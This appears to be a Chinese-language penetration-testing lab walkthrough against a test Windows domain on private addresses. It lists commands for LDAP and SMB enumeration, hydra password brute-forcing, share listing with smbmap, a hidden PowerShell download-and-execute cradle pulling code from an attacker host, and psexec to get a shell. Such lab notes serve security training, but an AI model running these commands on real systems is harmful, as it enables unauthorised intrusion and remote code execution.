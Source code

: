 ```
389/tcp open  ldap

ldapsearch -h 192.168.28.10 -p 389 -x -b dc=test,dc=local 
```
## 成功的操作
```
hydra 192.168.28.20 smb -l Administrator -P /usr/share/wordlists/500-worst-passwords.txt -T 64 -V
enum4linux -a -o test.local > test.local.txt
---

Target ........... test.local
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/08-05-10/1.PNG)

smbmap -u administrator -p abc123! -d workgroup -H 192.168.28.20

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/08-05-10/2.PNG)

```
smbmap -u administrator -p abc123! -d workgroup  -H 192.168.28.20 -P 445 -R admin$ > smb-admin.txt

smbmap -u administrator -p abc123! -d workgroup  -H 192.168.28.20 -P 445 -R c$ > smb-c.txt

smbmap -u administrator -p abc123! -d workgroup  -H 192.168.28.20 -P 445 -R c/users$ > smb-c.txt

smbmap -u administrator -p abc123! -d workgroup  -H 192.168.28.20 -P 445 -R c$/users  > c-user.txt

smbmap -u administrator -p abc123! -d workgroup  -H 192.168.28.20 -P 445 -x 'powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\'http://192.168.28.1:80/a\'))\"' > command-smb.txt

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.1:80/a'))"
```
## 拿到一个shell
python /usr/share/doc/python-impacket/examples/psexec.py workgroup/Administrator@192.168.28.20 cmd.exe

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/08-05-10/3.PNG)


## 参考资料
[Kali Linux信息收集之enum4linux](https://hackfun.org/2016/10/23/Kali-Linux%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86%E4%B9%8Benum4linux/)

[说说Powersploit在内网渗透中的使用](https://www.freebuf.com/sectool/131275.html)
